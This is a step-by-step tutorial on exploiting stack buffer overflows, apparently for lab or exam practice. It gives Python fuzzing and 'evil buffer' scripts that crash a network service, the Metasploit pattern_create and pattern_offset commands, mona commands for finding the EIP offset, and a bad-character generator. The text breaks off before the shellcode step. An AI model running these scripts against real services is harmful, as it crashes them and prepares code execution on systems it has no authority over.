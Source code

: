 # Steps:
1. Crash The Application
2. Find EIP and Control ESP
3. Identify Bad Characters 
4. Find JMP ESP
5. Generate Shell Code
6. Exploit

# 1. Crash the application 
Create a file called fuzz.py The following Python script can be modified and used to fuzz remote entry points to an application. It will send increasingly long buffer strings in the hope that one eventually crashes the application. **Choose one of these versions.**

### Skeleton Version 1

```Python
#!/usr/bin/python 
import socket,sys

ip = '127.0.0.1'
port = 9999
buffer = []

try:
	print '[+] Sending buffer'
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((ip,port))
	s.recv(1024)			
	s.send(buffer + '\r\n')
except:
 	print '[!] Unable to connect to the application.'
 	sys.exit(0)
finally:
	s.close()
```

### Skeleton Version 2

```Python
    #!/usr/bin/python 
    import socket, time, sys

    ip = "127.0.0.1"
    port = 9999
    timeout = 5

    # Create an array of increasing length buffer strings.
    buffer = []
    counter = 100
    while len(buffer) < 30:
        buffer.append("A" * counter)
        counter += 100

    for string in buffer:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(timeout)
            connect = s.connect((ip, port))
            s.recv(1024)
            s.send("USER username\r\n")
            s.recv(1024)

            print("Fuzzing PASS with %s bytes" % len(string))
            s.send("PASS " + string + "\r\n")
            s.recv(1024)
            s.send("QUIT\r\n")
            s.recv(1024)
            s.close()
        except:
            print("Could not connect to " + ip + ":" + str(port))
            sys.exit(0)
        time.sleep(1)
```

# 2. Find EIP and control ESP

We are able to establish that we are able to crash the application with a relative number of bytes. Now we need to identify the exact number bytes that it takes to fill the buffer. Metasploit provides a ruby script called pattern_create.rb that will create a unique string with no repeating characters. After we send this payload to the buffer, it will display what the offset is which we'll use for the next step in finding the EIP.

```
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 666 (Change 666 to the value that crashed the server) 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2...
```

Create a new script called findEIP.py
You take the unique string character created and that becomes your new buffer in findEIP.py 


### Skeleton

```Python
#!/usr/bin/python 
import socket

ip = "10.0.0.1"
port = 21

prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2..."
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

Send that payload to the application, make sure it crashed and grab the EIP value in the debugger.

Now, we have 3 methods to find the offset:


## Method 1

Use mona's findmsp command, with the distance argument set to the pattern length.

    ...
    !mona findmsp -distance 666
    
    [+] Looking for cyclic pattern in memory
    Cyclic pattern (normal) found at 0x005f3614 (length 600 bytes)
    Cyclic pattern (normal) found at 0x005f4a40 (length 600 bytes)
    Cyclic pattern (normal) found at 0x017df764 (length 600 bytes)
    **EIP contains normal pattern : 0x78413778 (offset 112)**
    ESP (0x017dfa30) points at offset 116 in normal pattern (length 484)
    EAX (0x017df764) points at offset 0 in normal pattern (length 600)
    EBP contains normal pattern : 0x41367841 (offset 108)
    ...


## Method 2

We will now use a second script from Metasploit called pattern_offset.rb. What this script will do is take that value and seeing exactly where it exists in the buffer length we designate, showing us the point where the buffer will crash. 

```
root@gh0x0st:~# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q pasteESPvaluehere -l 666
[*] Exact match at offset 112
```
## Method 3

You can also use these web generator to find the offset:
1. https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/
2. https://wiremask.eu/tools/buffer-overflow-pattern-generator/


### 3. Finding Bad Characters

Generate a bytearray using mona, and exclude the null byte (\\x00) by default. Note the location of the bytearray.bin file that is generated.

```
!mona bytearray -b "\x00"
```

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \\x01 to \\xff. Called badchars.py

```
 #!/usr/bin/env python
 from __future__ import print_function

 for x in range(1, 256):
     print("\\x" + "{:02x}".format(x), end='')

 print()
```

